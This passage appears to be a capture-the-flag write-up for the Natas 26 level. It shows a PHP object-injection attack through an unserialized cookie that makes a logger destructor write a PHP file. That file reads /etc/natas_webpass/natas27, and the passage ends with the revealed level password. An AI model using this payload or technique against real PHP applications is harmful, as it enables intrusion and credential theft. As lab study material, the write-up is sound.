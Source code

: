 ```php
if (array_key_exists("drawing", $_COOKIE)){
            $drawing=unserialize(base64_decode($_COOKIE["drawing"]));
            if($drawing)
                foreach($drawing as $object)
                    if( array_key_exists("x1", $object) && 
                        array_key_exists("y1", $object) &&
                        array_key_exists("x2", $object) && 
                        array_key_exists("y2", $object)){
                            $color=imagecolorallocate($img,0xff,0x12,0x1c);
                            imageline($img,$object["x1"],$object["y1"],
                                    $object["x2"] ,$object["y2"] ,$color)
                        }
        }
```

Our overwritten variables do something since the destructors uses them. Destruct is called at the end of execution of the script which means our cookie has been loaded and replaced initMsg, exitMsg and logFile.

```php
function __destruct(){
            // write exit message
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$this->exitMsg);
            fclose($fd);
        }
```

We now open our custom log file 'img/n0j.php' which contains `<?php echo file_get_contents('/etc/natas_webpass/natas27'); ?>\n"`, so we when we load it we get the password of natas27.

55TBjpPZUUJgVP5b3BnbG6ON9uDPVzCJ

